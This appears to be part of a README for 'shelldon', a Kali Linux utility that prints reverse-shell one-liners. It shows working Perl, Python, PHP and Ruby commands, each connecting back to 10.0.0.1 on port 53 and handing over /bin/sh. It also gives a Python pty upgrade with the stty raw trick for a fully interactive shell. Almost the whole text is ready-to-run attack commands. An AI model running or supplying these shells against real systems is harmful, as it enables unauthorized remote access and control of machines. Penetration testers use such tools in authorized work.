 ## Perl
```
root@kali:/opt/shelldon# shelldon perl
perl -e 'use Socket;$i="10.0.0.1";$p=53;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- **Default COMMAND: perl**
- **No --alternate functionality**

## Python
```
root@kali:/opt/shelldon# shelldon python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- **Default COMMAND: python3**
- Note that because python2.7 is deprecated, it is likely you will need to specify the exact path with -c
- Ex: `root@kali:/opt/shelldon# shelldon python -c /usr/bin/python3.8`

## Python --alternate
```
root@kali:/opt/shelldon# shelldon python -a
export TERM=screen-256color;python3 -c 'import pty;pty.spawn("/bin/bash")';
```
- **Default COMMAND: python3**
- This is not a reverse shell, this is a pretty shell. I recommend typing `<CTRL+Z>stty raw -echo;fg<ENTER>` to make it fully interactive.
- The TERM part is not necessary, I just prefer color.

## PHP
```
root@kali:/opt/shelldon# shelldon php
php -r '$sock=fsockopen("10.0.0.1",53);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- **Default COMMAND: php**
- This is not a webshell. For php webshells, please refer to the /usr/share/webshells/php/ folder on Kali Linux.
- **No --alternate functionality**

## Ruby
```
root@kali:/opt/shelldon# shelldon ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",53).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- **Default COMMAND: ruby**
- **No --alternate functionality**
